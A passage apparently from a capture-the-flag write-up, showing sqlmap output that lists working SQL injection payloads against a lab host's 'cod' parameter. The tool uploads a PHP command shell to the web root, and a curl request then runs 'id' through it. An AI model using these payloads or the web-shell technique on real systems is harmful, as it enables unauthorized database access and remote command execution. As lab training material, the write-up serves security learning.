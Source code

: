     [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 15:08:51 /2019-06-28/

    [15:08:51] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; en-US) AppleWebKit/534.18 (KHTML, like Gecko) Chrome/11.0.660.0 Safari/534.18' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:08:52] [INFO] resuming back-end DBMS 'mysql' 
    [15:08:52] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)

        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:08:52] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:08:52] [INFO] fingerprinting the back-end DBMS operating system
    [15:08:52] [INFO] the back-end DBMS operating system is Linux
    [15:08:52] [WARNING] expect junk characters inside the file as a leftover from UNION query
    do you want confirmation that the local file '/opt/shells/php/cmd.php' has been successfully written on the back-end DBMS file system ('/var/www.md/0xdf.php')? [Y/n] Y
    [15:08:52] [INFO] the remote file '/var/www.md/0xdf.php' is larger (41 B) than the local file '/opt/shells/php/cmd.php' (35B)
    [15:08:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

    [*] ending @ 15:08:52 /2019-06-28/



Now I can reach it at:



    root@kali# curl http://10.10.10.143/0xdf.php?cmd=id
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output -
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=id  --output - | xxd
    00000000: 7569 643d 3333 2877 7777 2d64 6174 6129  uid=33(www-data)
    00000010: 2067 6964 3d33 3328 7777 772d 6461 7461   gid=33(www-data
    00000020: 2920 6772 6f75 7073 3d33 3328 7777 772d  ) groups=33(www-
    00000030: 6461 7461 290a 0000 0000 0000            data).......
